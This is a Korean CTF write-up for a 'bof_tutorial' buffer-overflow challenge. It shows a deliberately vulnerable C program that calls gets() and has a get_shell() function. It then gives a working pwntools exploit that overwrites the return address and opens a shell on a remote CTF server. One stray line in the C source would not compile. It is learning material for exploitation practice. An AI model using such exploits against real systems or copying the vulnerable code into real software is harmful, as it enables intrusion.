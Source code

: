 # bof_tutorial

> ### 소스코드를 분석하여 buffer overflow 방식으로 get_shell() 함수를 실행시켜 플래그를 얻어낼 수 있다. 


<hr>

# Solution 

- source code
```c
#include <stdio.h>
#include <stdlib.h>
void init( void )
{
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stderr, 0, 2, 0);
}
void get_shell( void )
{
	system( "/bin/sh" );
}
int main( void )
{
	char buf[16];
	init();
	gets( buf );
	printf( "Your input is %s\n", buf );
	bof_tutorial guide 2
	return 0;
}
```
### 코드 분석

- 위의 소스 코드를 보면 `get_shell` 함수를 실행시키면 플래그를 얻을 수 있을 것 같은데 main 함수에는 `get_shell`함수를 실행하는 코드가 없다.
- 그리고 main 함수에는 입력을 받는 길이를 확인하지 않는 취약점을 가진 함수인 `gets` 함수가 있다.
- 스택 구조의 가장 밑(높은 주소)에있는 RET 영역은 다음에 실행할 명령어의 주소를 담고있다.
- 이 부분을 `get_shell` 함수의 주소로 덮으면 될 것 같다.
- 이 프로그램을 실행할 때 스택의 구조는 아래와 같다.
![스크린샷 2024-01-19 200142](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/fa55ba9a-2619-41a5-b138-c64a14fc6c41){: width="50%" height="50%"}
- `gets()` 함수로 입력을 받을 때 쓰레기 값으로 (16+8) byte를 채우고 그 뒤에 `get_shell` 함수의 주소를 입력하자.
- `info func`  명령어를 사용하면 함수들의 정보를 확인 할 수 있다.
- 이를 통해 `get_shell` 함수의 주소가 `0x00000000004011b7` 임을 알 수 있다.
- 이제 위에서 알아낸 정보들을 바탕으로  exploit 코드를 작성하면 된다.
```python
# bof_exploit.py
from pwn import *
# process를 실행하기 위한 함수
# remote로 접속하려면 remote 함수를 사용해야함
r = remote( "ctf.keeper.or.kr", 1010 )
payload = b"A" * 24 # buf( 16 bytes ) + SFP( 8 bytes )
payload += p64( 0x40101a ) # system 함수 내부 구현 때문에 ret gad
payload += p64( 0x4011b7 ) # get_shell
# payload를 입력하기 위한 함수. 
# 끝에 '\n'까지 붙여주는 기능을 갖고 있음.
r.sendline( payload )
# shell을 획득하고 나서 직접적인 상호작용을 위한 함수
r.interactive()
```

### 코드 실행 결과
![스크린샷 2024-01-19 190946](https://github.com/yeochaeeon/23SystemHacking_study/assets/129289883/5c224b8e-46dc-434d-91c7-d2421a999990)

